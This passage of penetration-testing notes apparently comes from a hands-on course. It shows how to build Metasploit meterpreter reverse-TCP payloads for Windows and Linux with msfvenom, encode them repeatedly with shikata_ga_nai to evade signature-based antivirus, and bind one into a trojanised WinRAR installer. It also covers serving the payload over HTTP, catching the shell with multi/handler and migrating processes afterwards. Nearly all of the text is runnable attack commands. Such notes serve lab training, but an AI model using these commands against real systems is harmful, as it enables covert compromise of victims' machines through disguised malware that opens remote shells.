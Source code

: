 We are going to be taking a look at how to encode both Linux and Windows payloads with the objective of **avoiding signature based antivirus solution**. The **encoding** is essentially the process of modifying the payload shellcode with the objective of modifying the payloads signature. So if I modify a file, the signature change almost immediately. However this has limitations. 

```shell
msfvenom --list encoders

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -e x86/shikata_ga_nai -f exe > ~/Desktop/Windows_Payloads/encodedx86.exe
cd Windows_Payloads/
ls
```

Increasing encoder iterations (e.g., `shikata_ga_na`) enhances payload obfuscation, improving antivirus evasion.

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -i 10 -e x86/shikata_ga_nai -f exe > ~/Desktop/Windows_Payloads/encodedx86.exe
# -i 10 is number or iterations
# --iterations 10
```

For Linux:

```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -i 10 -e x86/shikata_ga_nai -f elf > <PAYLOAD_ENCODED_x86>
sudo python -m SimpleHTTPServer 80
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp # example
set payload <MSFVENOM_PAYLOAD>
set LHOST <MSFVENOM_LOCAL_HOST_IP>
set LPORT <MSFVENOM_LOCAL_PORT>
run

# Back to the windows system, open the browser with the my ip address and save the .exe file and execute it. Back to the kali VM. 
 sysinfo
 whoami 
```

### 4.3. Injecting Payloads Into Windows Portable Executables

Generating the payload and inject it in WinRAR.

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -e x86/shikata_ga_nai -i 10 -f exe -x ~Downloads/wrar602.exe > ~/Desktop/Windows_Payloads/winrar.exe
sudo python -m SimpleHTTPServer 80
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp # example
set payload <MSFVENOM_PAYLOAD>
set LHOST <MSFVENOM_LOCAL_HOST_IP>
set LPORT <MSFVENOM_LOCAL_PORT>
run

# Switch to the windows system. We can now see that the downloaded file looks like the winrar file, however because we did not specify the k option to maintain the functionality of the executable, what wil happen is when we double click on it it'll actaully not provide us with the winrar installer, it'll just exectute the actual payload. 
# Back to the Kali and 
systeminfo
run post/windows/manage/migrate
```